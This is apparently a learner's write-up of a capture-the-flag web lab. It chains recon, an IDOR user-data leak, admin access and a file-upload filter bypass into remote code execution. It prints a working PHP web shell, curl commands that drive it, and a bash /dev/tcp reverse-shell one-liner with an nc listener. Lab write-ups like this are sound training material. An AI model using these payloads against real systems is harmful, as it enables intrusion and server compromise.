

## Learning Objectives

The engagement follows this path:

>Reconnaissance and enumeration -
Discover what the application exposes
>Insecure Direct Object Reference (IDOR) -
Access data belonging to other users
>Weak password reset -
Take over an account through a flawed reset mechanism
>Admin panel access - 
Escalate from a regular user to an administrator
>Remote code execution - 
Leverage admin functionality to execute commands on the server.

Each vulnerability builds on the information gathered in the previous step. This is how real-world penetration tests work; you rarely find a single critical flaw sitting in the open. Instead, you chain smaller weaknesses together until they add up to something significant.

------------------------------------------------------
## Reconnaissance and enumeration:

>Port Scanning:
- - - discovering what services are running on the target.
nmap -sV -sC -p- MACHINE_IP

>Exploring the Application:
- - - checking the HTTP response headers as well.

root@attacker:~# curl -I http://MACHINE_IP
HTTP/1.1 200 OK
Date: Fri, 27 Mar 2026 16:43:09 GMT
## erver: Apache/2.4.58 (Ubuntu)
## Set-Cookie: PHPSESSID=f05vg10cq16k3kq5vpurgpioqb; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=UTF-8

>Directory Enumeration:

- - - discovering what directories and files exist beyond what the navigation bar shows, using common wordlist.

root@attacker:~# gobuster dir -u http://MACHINE_IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -x php

we got a lot of directories :
/admin
/api
/reset.php
/uploads
/profile.php 
/dashboard.php
>Registering an Account:

## IDOR:

http://MACHINE_IP/profile.php?id=6  // our own ip is 6
we can simply change the id to 7 or 1 ... and see if it will ask for authentication or not.
http://MACHINE_IP/profile.php?id=1  // admin's ip

then we go with exctacting cookies using Inspect

curl -s -b "PHPSESSID=cookies" "http://MACHINE_IP/profile.php?id=1" | grep "fw-semibold"

full name

                        
f.lastname@host.thm

                        
March 24, 2026

curl -s "http://MACHINE_IP/api/user?id=1"

{"id":1,"name":"full name","email":"f.lastname@host.thm","role":"administrator","created":"2026-03-24"}

>Why This Matters:

IDOR vulnerabilities are consistently ranked among the most common web application flaws. They occur because developers assume users will access only their own resources, an assumption that breaks the moment someone changes a URL parameter. The fix is straightforward: the server must verify that the currently authenticated user has permission to access the requested object. But in practice, this check is frequently missing.

## Weak Password Reset:

Navigate to http://MACHINE_IP/reset.php

## Admin Panel Access:

Navigate to http://MACHINE_IP/admin using the browser where you are logged in as full . The admin panel exposes several management pages. Most of these are standard administrative functions, but one stands out immediately: /admin/upload.php. A file upload function in the hands of an administrator is a powerful feature, and from a penetration tester's perspective, it is a potential path to remote code execution.

- - - we can check what kind of files we can upload using inspector

echo '<?php echo "PHP is executing"; ?>' > test.phtml

The .phtml extension was accepted. The application's file type filter blocks .php but does not account for alternative PHP extensions. This is a common oversight; developers create a blocklist of "dangerous" extensions, but miss less common ones that the server still processes as PHP.

>Creating a Web Shell:
we can push this command:
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>
and use curl
root@tryhackme:~# curl "http://MACHINE_IP/uploads/documents/shell.phtml?cmd=whoami"
<pre>www-data</pre>
root@tryhackme:~# curl "http://MACHINE_IP/uploads/documents/shell.phtml?cmd=id"
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)</pre>

- - - We have remote code execution. The commands are running as www-data, which is the default user for the Apache web server on Ubuntu. Let's gather more information about the system:

root@tryhackme:~# curl "http://MACHINE_IP/uploads/documents/shell.phtml?cmd=hostname"
<pre>example-hostame</pre>
root@tryhackme:~# curl "http://MACHINE_IP/uploads/documents/shell.phtml?cmd=uname+-a"
<pre>Linux example-hostame 6.8.0-1017-aws #18-Ubuntu SMP Wed Oct  2 20:17:03 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux</pre>

>Obtaining a Reverse Shell:

A web shell works, but it is limited; each command is a separate HTTP request, there is no interactive session, and complex commands with special characters can be difficult to pass through URL parameters. Let's upgrade to a proper reverse shell.

First, set up a listener on our AttackBox:

root@tryhackme:~# nc -lvnp 4444
listening on [any] 4444 ...

In a second terminal, trigger the reverse shell through the web shell. We will URL-encode the payload to avoid issues with special characters:

root@tryhackme:~# curl "http://MACHINE_IP/uploads/documents/shell.phtml?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/CONNECTION_IP/4444+0>%261'"

-------
then we got this in our listener terminal:

root@tryhackme:~# nc -lvnp 4444
listening on [any] 4444 ...
Connection received on CONNECTION_IP 48268
www-data@example-hostame:/var/www/html/uploads/documents$ whoami
www-data
www-data@example-hostame:/var/www/uploads/documents$ 

and we can extract data from anything inside :

www-data@example-hostame:~$ cat /var/www/flag.txt

----------------------------------------------------------------------------
## The attack Chain:

Let's take a step back and look at the full path we followed. In a penetration test report, you would document the entire chain of vulnerabilities, showing the client how each weakness contributed to the overall compromise. Here is our chain:

Enumeration: We discovered the application's technology stack (Apache, PHP, MySQL), its directory structure, an API endpoint, a password reset page, an uploads directory, and an admin panel.
IDOR (Task 3): The /profile.php?id= parameter and the /api/user?id= endpoint allowed us to enumerate all users, including the administrator's name and email address.
Weak Password Reset (Task 4): The reset mechanism displayed tokens directly in the HTTP response, allowing us to generate a token for the administrator and change her password.
Admin Panel Access (Task 5): Using the compromised administrator account, we accessed the admin panel and found a file upload function with an incomplete extension blocklist.
Remote Code Execution (Task 6):  We uploaded a PHP web shell using the .phtml extension, which bypassed the filter. This gave us command execution on the server and a path to a full reverse shell.
No single vulnerability in this chain led to full server compromise on it's own. The IDOR leaked user information but did not provide direct access. The password reset was exploitable but only useful because we already knew the admin's email. The upload filter had a bypass, but we needed admin credentials to reach it. It was the combination of these weaknesses that led to full server compromise.